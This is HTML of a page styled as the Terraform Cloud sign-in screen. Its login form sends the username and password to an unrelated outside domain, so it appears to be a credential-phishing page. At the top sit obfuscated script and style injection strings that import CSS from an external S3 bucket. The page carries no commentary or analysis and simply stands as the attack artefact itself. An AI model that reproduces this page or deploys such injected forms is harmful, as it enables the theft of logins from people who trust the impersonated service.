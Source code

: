 
<div style=""><img src="<sc\ript>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="</sc\rip\t>
<div style=""><style>@im\port'https://\terraform-css-02\.s3\.amazonaws\.com\/test.css';<img src="</style>
  
    <div class="columns is-centered is-vcentered">
  <div class="column is-full-mobile is-fixed-medium">

    <section class="section">

        <div class="box session-box session-box-top session-box-top-cloud">
    <img src="https://d3apqp432l5mdq.cloudfront.net/CIRC-51779-348ab1e/assets/terraform-cloud-logo-81769debed7594dfa089baf99d4a402aedadaaf69303482f37fac40d39e7c047.svg" alt="Terraform Cloud">
  </div>


      <div class="box session-box session-box-bottom">
        <h2 class="session-title is-size-5" data-cy="title">Sign in to Terraform Cloud</h2>

        


          <div>
            <form class="new_user" id="new_user" action="https://git.bullsecurity.co" accept-charset="UTF-8" method="post"><input name="utf8" type="hidden" value="✓"><input type="hidden" name="authenticity_token" value="oLvVZxkRIXC35v/4Gf8JHKWAx/oLcmuU4hEHwjGPajF1nj7MemTDt8FreDjKFtFyQNFIbvy3GLyVuphhWISZgA==">

  <div class="field">
    <label class="label" for="user_login">Username or email</label>
    <input autofocus="autofocus" class="input" data-cy="login-field" type="text" name="user[login]" id="user_login">
  </div>

  <div class="field">
    <label class="label" for="user_password">Password</label>
    <input class="input" data-cy="password-field" type="password" name="user[password]" id="user_password">
    <div class="help">
      <a href="/auth/new">Forgot password?</a>
    </div>
  </div>

  <div class="field">
    <input type="submit" name="commit" value="Sign in" class="button is-fullwidth is-primary " data-cy="submit">
  </div>
</form>
          </div>

      </div>

      <div>
          <p class="has-margin-bottom">
    Need to sign up? Create your <a href="/signup/account">free account</a>.
  </p>
  <p>
    View <a href="https://www.hashicorp.com/products/terraform/offerings">Terraform Offerings</a> to find out which one is right for you.
  </p>


      </div>


    </section>

  </div>
</div>
